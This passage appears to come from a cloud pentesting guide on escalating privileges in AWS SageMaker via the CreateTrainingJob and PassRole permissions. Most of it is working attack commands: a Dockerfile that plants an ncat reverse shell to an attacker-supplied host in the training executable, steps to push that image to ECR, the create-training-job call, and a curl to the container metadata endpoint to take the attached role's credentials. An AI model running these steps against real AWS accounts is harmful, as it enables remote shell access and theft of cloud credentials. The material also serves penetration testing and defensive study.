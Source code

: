 **Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

An attacker with those permissions will be able to create a training job, **running an arbitrary container** on it with a **role attached** to it. Therefore, the attcke will be able to steal the credentials of the role.

> [!WARNING]
> This scenario is more difficult to exploit than the previous one because you need to generate a Docker image that will send the rev shell or creds directly to the attacker (you cannot indicate a starting command in the configuration of the training job).
>
> ```bash
> # Create docker image
> mkdir /tmp/rev
> ## Note that the trainning job is going to call an executable called "train"
> ## That's why I'm putting the rev shell in /bin/train
> ## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
> cat > /tmp/rev/Dockerfile <<EOF
> FROM ubuntu
> RUN apt update && apt install -y ncat curl
> RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
> RUN chmod +x /bin/train
> CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
> EOF
>
> cd /tmp/rev
> sudo docker build . -t reverseshell
>
> # Upload it to ECR
> sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
> sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> ```

```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
    --training-job-name privescjob \
    --resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
    --algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
    --role-arn <role-arn> \
    --output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
    --stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
